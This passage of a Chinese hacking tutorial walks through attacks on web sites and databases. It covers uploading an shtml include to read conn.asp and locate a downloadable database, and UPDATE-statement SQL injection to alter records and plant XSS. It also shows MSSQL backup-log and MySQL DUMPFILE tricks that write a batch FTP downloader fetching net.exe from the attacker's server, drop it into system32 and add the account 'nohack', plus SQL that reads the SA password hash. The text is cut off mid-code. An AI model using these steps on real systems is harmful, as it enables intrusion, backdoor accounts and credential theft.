


输入完代码后将文件另存为 shtml 后缀的文件，如 111.shtml，完成之后如图9。

接着回到后台页面“样式管理”处，在“图片类型”中添加后缀为“shtml”的文件，如图10。

接着上传前面保存好的 shtml 文件，提示成功！在网址中访问这个 shtml 文件，会发现页面上一片空白，如图11。





图7  
图8  
图9  
图10  
图11





出问题了？当然不是！想看到结果，需要在网站上点右键，选择“查看源文件”，在源文件中就能看到位于根目录下的 conn.asp 文件的内容了，如图12。

其中“Databases/#king@se.asp”是主站的数据库地址，可以尝试下载并进行破解。

同理，这个方法还能查看其它网站中关键文件的源代码，为查找漏洞提供了方便。在 shtml 中填写目标文件的相对地址一定要准确，如果 conn.asp 不在根目录下，除了猜解几个常见的存放目录，还可以直接查看一个脚本文件找出代码中调用的 conn.asp 的路径。

最后说说这个方法存在的条件，是需要上传目录有脚本执行权限的，否则将出现如图13的提示。

## 二、UPDATE 截断注入修改数据

现在几乎所有的 SQL 注入工具都不太完善，它们所涉及的 SQL 注入漏洞的利用都是基于 select 语句，根据查询的内容不同，分为数字型、字符型、搜索型三种。这三种注入模式在一般的工具中都有，如图1。

但它们不是注入的全部，只是一部分。凡是能对数据库进行操作的功能，如常见的查询、插入、修改等相关的 SQL 语句，一旦在网站代码中出现了漏洞，都是可以注入的，而不是只有查询注入这一种。

| 数据库的语句 | 举例说明 |
| :--- | :--- |
| Select 查询语句 | 数字型，以数字值作为查询条件，如`Select * from down where id=18`；字符型，以字符作为查询条件，如`Select * from down where name='毕业论文'`；搜索型，以 like 语句为查询条件，可以不指定具体值而只指定一个近似值为条件，如`Select * from down where name like '%论文%'` |
| Insert into 语句 | 插入语句，在数据库中插入一条新的数据（并不覆盖原有数据），例如`Insert into down(name) values('小冬')` |
| Update 语句 | 修改语句，把数据库中指定的某条数据进行修改，例如`Update down set name='小小冬' where name='小冬'` |

表1

其关系可以参考表1。由此可见，现在所有的注入方式都只是利用了 select 查询而已。关于 insert 和 update 语句的注入方法，需要与网站本身源代码相结合，才能构造出正确的注入语句，灵活性相当大，工具是解决不了这个问题的，所以基于 update 和 insert 的注入工具也就没有出现。

Update 和 insert 注入的语句构造，和 select 注入一样，要考虑到源码中本来的语句构造来进行匹配，只是难度增加了很多。先看看 select 注入时我们是怎样匹配的。对于数字型注入，一般是直接在后面加上 and 后输入自己的查询语句，例如（以下例句中，代码所含原语句以粗体表示，我们自己构造的语句用正常字符表示）：

```sql
Select * from down where id =18 and 1=(select count(*) from admin)
```

字符型的则需要把字符串中的“'”号闭合后再提交语句：

```sql
Select * from down where name='毕业论文' and 1=(select count(*) from admin)
```

Update 语句中用这种方法提交是不行的。以表1中的 update 语句为例，把 `and 1=(select count(*) from admin)` 在注入点提交后，会变成如下语句：

```sql
Update down and 1=(select count(*) from admin) set wd=1233 where name='nohack'
```

可以看到，“and 1=(select count(*) from admin)”被插入到原语句中，使整个语句出现了错误，从而无法执行。因为后面的子查询 `where name='nohack'` 对于你要修改或查询的语句而言是错误的。

为了方便大家看清楚，我单独截出这一段代码：

```sql
1=(select count(*) from admin) where name='nohack'
```

以条件 `name='nohack'` 是明显无法保证前面语句的正常执行，我们要对注入语句进行修改并重新构造，这也是最难的地方。在此需要事先说明，update 注入的语句构造必须与当时源代码中的语句相结合才能正确构造出注入语句。此例中所展示的注入方法绝非标准化、可通用的 update 注入语句，需要有一定的代码解读能力才可以完成实战中语句的构建。

根据注入点存在的参数位置的不同，我们可以利用原语句中的 update 来修改数据，比如：

```sql
Update down set a=xxxxx where id=1234 -- set wd=1233 where name='nohack'
```

在这个语句里，“Update down set a=xxxxx where id=1234”是提交的语句，配合源码中的 update 修改了我所指定的字段 a 中的值，接着使用注释符号两个横线，或是在 mysql 中使用的“#”号注释掉源代码中后面的语句，即整个语句实际只执行了前半部分“Update down set a=xxxxx where id=1234”。



Update 语句出现的一个典型位置是一些对下载次数有统计的页面，如果不慎把计算提交的语句写在了客户端，又符合 SQL 注入的其它条件，就是可以利用的。比如该网站的下载页面链接为：http://www.nohack.com/view.php?module=download&id=34，如图2，提醒大家注意图中有一个下载次数统计。在 download 参数后加一个单引号时，出现了错误，并且可喜地暴出了一部分源代码，如图3。





图中 `Set downclick=downclick+1 where id=34` 的意思是把 id 为34对应的记录中的 downclick 字段进行修改。这个字段应该是记录被下载次数的，在前面图2的正常页面里我们看到是下载了155次，这时加入一个单引号后提交的语句是：

`Update download 'Set downclick=downclick+1 where id=34`

出错的位置是在 set 的前面，有了这些条件，我们就试着构造一下注入语句：

```sql
Update download set downclick=downclick-10 where id=34 #Set downclick=downclick+1 where id=34
```

粗体字显示的是添加执行的语句，注意第一个 `id=34` 后的 `#` 号，这是在 mysql 数据库下，`#` 号等同于 mssql 中的“--”符号，注释掉了后面的语句，实际只执行了整个语句前半部分，就是我们所构造的部分。

我提交测试的“downclick=downclick-10”，是把记录的下载次数减少十次，看看是否成功。注意 `#` 号属于特殊符号，在地址栏提交时要改为 `%23`。

访问刷新后结果如图4，返回正确页面同时下载次数被改成了145次，少了十次，正是我们构造的语句中减少的十次，说明此注入漏洞是可以使用的，我们可以修改同一表下各个字段的值了，比如提交 xss 进行挂马，获得利用信息等。


## 三、MYSQL 数据库导出任意文件渗透内网

Mysql 有一个特性，能把 exe、dll 等程序以二进制的方式导入再正常导出，这一点在 Mssql 中是无法做到的。Mssql 最常见的一种 hack 手段是备份导出 webshell。读者有没有想过除了文本文件（webshell 实际就是文本文件），还有可能导出为 EXE 程序呢？如果这一方法得以实现的话，会让我们的渗透多一种重要途径。

在 Mssql 数据库服务器与 WEB 服务器分离的网络环境下，想要上传一个程序到 Mssql 数据库上是有不少难度的，通常的做法是通过 webshell 中的 Mssql 连接功能连上远程数据库。

然后建一个表，写入下载脚本的代码，有特征字符的可以转义或用递交符把正确的字符存入表。不过为了省事，我们通常都是先用转换工具把字符串转成十六进制，即 0x 的格式再存进表。

笔者最喜欢使用的备份导出代码如下：

```sql
alter database 库名 set RECOVERY FULL    /* 把 sql 设置成日志完全恢复模式，库名根据数据库修改
create table cmd (a image)    /* 建一个表 cmd，包含一个存储二进制数的字段 a
declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=转换后的16进制代码 backup log @a to disk=@s
with init
insert into cmd (a) values (十六进制代码内容)
declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s='导出的地址和文件名' backup log @a to disk=@s
```

通过以上五步把脚本写到数据库服务器，然后看有没有权限或别的办法执行这个脚本下载工具以及相应的操作。

不过注意，导出文件名只能用 bat 做后缀，因为备份 log 导出的代码中有很多杂乱代码，VBS 的容错性不够，bat 后缀的就可以。

我一般采用的下载工具的代码如下：

```bat
echo ftp>111.txt
echo open WEB空间IP>>111.txt
echo FTP用户名>>111.txt
echo FTP密码>>111.txt
echo get net.exe>>111.txt
echo bye>>111.txt
ftp -s:111.txt
del 111.txt
del tree.txt
del test.bat
```

在用工具转成16进制代码之前，要在上面多空两行用来容错。

将这段代码导出并执行成功后，你空间上的 net.exe 程序就被下载成功了。这种访问外部下载相应工具的方法，在实际渗透中几乎是必须用到的技巧。假设从一台 web 服务器上我们得知了另一台 sql 服务器的账号，并且是 SA 权限，这种情况下第一反应是建立一个管理员账号。但是如果 net.exe、net1.exe 被删除，我们只能通过外部访问。这时候被限制实在是太容易了，比如被配置的防火墙阻挡对外访问。



这种网络环境下，只有 sql 服务器自己生成一个 exe 程序才能达到目的。即能否像上面所述的 sql 导出脚本一样，把 exe 的代码存入表再导出成一个 EXE 呢？答案是肯定的，不过仅能在 Mysql 下可以，Mssql 下不行，起码公开的资料中，Mssql 是做不到的。

MYSQL 下做到这点倒不难，步骤和上面 Mssql 备份脚本是一样的，先将 exe 程序转换成16进制，即 0xXXXXXXXXXX 格式，然后建一个能储存相当长16进制数据的字段，再把转换后的代码存入字段，之后再导出为 exe 文件。

不过导出的方法可不是用备份 log，因为 EXE 程序是不允许有任何杂乱字符的，如图1。有杂乱字符的导出文件是肯定无法执行成功的，导出和将 EXE 程序转换成16进制的方法将在下面介绍。

首先你的电脑上要安装一个 Mysql 服务器，然后建一个表，字段类型指定为 longblob。

```sql
create table a (cmd LONGBLOB)
```

然后导入自己电脑上的 net.exe 文件，hex 函数表示以16进制模式处理程序。

```sql
insert into a (cmd) values (hex(load_file('c:\windows\system32\net.exe')))
```

再把导入的内容导出到一个 txt 文件里。

```sql
SELECT cmd FROM a INTO DUMPFILE 'd:\net.txt';
```

如图1，当我们打开这个 net.txt 文件时就可以看到已经导出成功。现在把目标转到被我们拿到账号的远程 Mysql 主机上，先建立一个表：

```sql
create table a (cmd LONGBLOB)
insert into a (cmd) values (那一串0x代码)
```

最后执行语句将其导出为 EXE：

```sql
SELECT cmd FROM a INTO DUMPFILE 'c:\windows\system32\net.exe'
```

现在在连接上远程数据库的 webshell 中执行“net user nohack hack123456”即可成功添加用户。如果运气好，碰到有3389开放在 SQL 服务器上允许连接（前文中说到该主机禁止向外连接，那么3389是唯一可连接的端口），那么更方便我们了。

注意，以上介绍的将 EXE 程序转换后写入表再导出，只是针对于在 Mysql 中的情况。对于 Mssql，在 SA 权限下的导出 EXE 是可以实现的，DB_owner 权限中的导出 EXE 程序暂时还没有办法，起码公开的资料中没有。

## 四、配置全文索引查询

当大家在遇到“%”号被过滤时，通常会采用模糊查询时不包括 % 的查询方法，就是用语句：

```sql
Select * from user where Contains(address,'"北京"')
```

该语句等同于：

```sql
Select * from user where address like '%北京%'
```

很棒的一个方法，避免了 % 号。有些朋友喜欢用 contains 查询，这是需要条件的，必须要管理员对数据库设置了全文索引。如果管理员没有做全文索引也不用怕，我们可以自己建立一个全文索引，然后再用这个 contains 语句进行无 % 号的模糊查询。

建立全文索引的第一步是打开全文索引选项，如图1，是在查询分析器中执行的结果。

```sql
if (select databaseproperty('pubs','isfulltextenabled'))=0
    execute sp_fulltext_database 'enable'
```

以上语句是检查数据库 pubs 是否支持全文索引，如果不支持则使用 `sp_fulltext_database` 打开该功能。在注入点中执行语句时，只用 `sp_fulltext_database 'enable'` 打开就行了。

第二步是建立全文目录 nohack。这个目录不是真正在硬盘下的物理目录，而是在数据库中虚拟的一个目录。在这个虚拟目录中把要索引的表导入其中，MSSQL 就是用这个方法提高了效率。执行语句：

```sql
execute sp_fulltext_catalog 'nohack','create'
```

图 2 中的语句是建立一个名为 nohack 的全文目录。接下来为想要全文索引的表建立全文索引数据元，执行语句为：

```sql
execute sp_fulltext_table 'test','create','nohack','index_name'
```

`test` 是想要建立全文索引的表名，第四个指定参数要求是索引名，而不是字段名，而且索引要求是主键或唯一键索引。

这一步是关键，要求是主键或唯一键索引，如果不是会提示出错，如图 3。

在正规标准的数据库表中，一般 ID 字段就是设为主键并且非空的。如果在表中没有一个主键字段并且为非空，执行建立全文数据元是不会成功的。

字段设为非空的语句是：

```sql
alter table test alter column id float not null
```

执行结果如图 4。

把一个字段设为主键的语句是：

```sql
ALTER TABLE test ADD PRIMARY KEY (id)
```

执行结果如图 5。

完成以上两步后，我们可以手工把一个字段设为唯一索引，执行语句：

```sql
create unique index index_name on table_name (id);
```

结果如图 6。

`index_name` 就是唯一索引的名称。需要注意：“设置字段为非空”“将字段设置为主键”“以非空的主键字段为依据设立唯一索引”这三步不能乱，否则也会出错。

经过这几项设置，表中就存在一个建立全文索引数据元合乎条件的字段了，这样就能成功建立好数据元，如图 7。

下一步，就是把要进行全文索引的各个字段都添加到全文目录里。首先设置全文索引列名，语句是：

```sql
execute sp_fulltext_column 'test', 'name', 'add'
```

`test` 是表名，`name` 是要添加的字段名，执行结果如图 8。

接下来是激活表的全文检索能力，也就是在全文目录中注册该表。执行语句：

```sql
execute sp_fulltext_table 'test', 'activate'
```

结果如图 9。

最后一步是填充全文索引目录。如果字段中的数据量非常大，要等待一段时间后才能导入完成。执行语句：

```sql
execute sp_fulltext_catalog 'nohack', 'start_full'
```

结果如图 10。

全文目录填充完成后，即可使用全文目录检索，执行如图 11 的操作：

```sql
select * from test where contains(name, "zhang")
```

建立全文目录的操作相对比较复杂，有十来条语句，希望读者在应用过程中耐心仔细，不要见到麻烦复杂的操作就望而生畏。殊不知不畏难就是高手的品质。还要注意各条语句中的各个参数，哪里是表名，哪里是字段名，哪里是全文目录名，千万不要弄错。

相信了解注入的读者都知道，有时一个符号被过滤，会给我们入侵检测带来很大的阻碍。如果能将这个办法举一反三地应用，找到相应办法解决其它符号被限制的情况，那就完美了。

本书的宗旨不在于介绍一些现成的技术，而是把技术作为启发新思维的桥梁。本书的一篇篇文章，就好像带领读者观赏一片片未知领域，引发读者的灵感和求知欲，能自主发掘出新的技术，本文目的也是如此。

## 五、获得并破解 mysql 系统密码

在入侵检测中，获得系统的管理员密码是一个永恒的目标。现在网络安全的绝大部分核心还是在于密码的有效应用。不依赖密码的安全认证，如指纹识别、视网膜识别、图像识别等，对于网络来说，由于成本和可行性的问题，无论其认证准确度和效率有多高，也不可能应用到网络安全方面。

而密码认证“只认密码不认人”的特性，又决定了谁掌握了最高权限拥有者的密码，谁就拥有了最高权限，不管你是谁。

现在流行的黑客攻击方式，如注入、跨站、社工等，其中相当一部分就是对于密码的截取。技术上的东西随着时间发展会有变化和发展，但是围着核心转，这点永远不会变。本章内容就是讲解数据库系统密码的获取，特别是 MySQL 数据库密码的获取与破解。

现在主流的几种数据库 Access、MSSQL、MySQL 都可以设置密码，其中 MSSQL 和 MySQL 是必须设置密码的。如果密码为空，那是十分重大的安全漏洞。

Access 数据库的密码和破解没任何难度，前提是你首先得把数据库下载到本地，然后用相关破解工具打开就可以得到密码，如图 1。

MSSQL 数据库的密码保存在系统表 `sysxlogins` 中，可以使用命令：

```sql
select password from master.dbo.sysxlogins where name='sa'
```

执行结果如图 2。

我们可以看到，得到账号 SA 的密码 hash。值得注意的是，加密方式不是 MD5，是一种变化的 SHA1 加密方式，目前解密还比较复杂。例如用：

```sql
